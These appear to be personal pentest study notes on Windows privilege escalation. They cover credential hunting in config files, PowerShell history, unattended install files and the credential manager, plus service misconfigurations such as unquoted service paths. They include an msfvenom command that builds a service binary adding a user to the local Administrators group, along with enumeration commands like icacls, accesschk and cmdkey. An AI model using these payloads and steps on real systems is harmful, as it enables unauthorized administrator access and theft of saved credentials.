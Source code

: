 - and tip : check lastwritedate  

misconfiguration
  - IT realted : .ini .config .xml
  - nonrelated common user: .txt .md 
    - don't do `-force`. too much results 

powershell history 
  - PS
unattended file
  - force 
  - searching in c:\windows\ takes too much
    - c:\windows\panther\ first
    - c:\windows\system32\sysprep\ second
  - nothing
 
unquoted service path
  C:\Disk Management\Disk Pulse Enterprise\bin\diskpls.exe
  - icacls 
      Write priv
  - accesschk.exe
    - sysinternalssuite 
```zsh
msfvenom -p windows/x64/exec CMD="net localgroup Administrators minseok.kim /add" -f exe-service -o Disk.exe
```
  shutdown /r
    don't have priv to restart-service or reboot
  
modify priv from service in bin path
  - accesschk.exe
    - specific user's priv about service
      - no write access.
    - Group's priv, where all users are in


gathering SW installed or service list first




#### Methods
credential manager
  IT-related employees use credentials manager and save many accounts
    - sys admin/manager
    - helpdesk
    - etc. who need to log in with many creds, they don't remember. 
  because doesn't need to put creds whenever you log in 

    - if GUI
      - web credentials
        - IE or edge browser's saved creds
      - windows credentials
        - saved creds to application, service 
    - if not GUI in many of cases
      - cmdkey /list

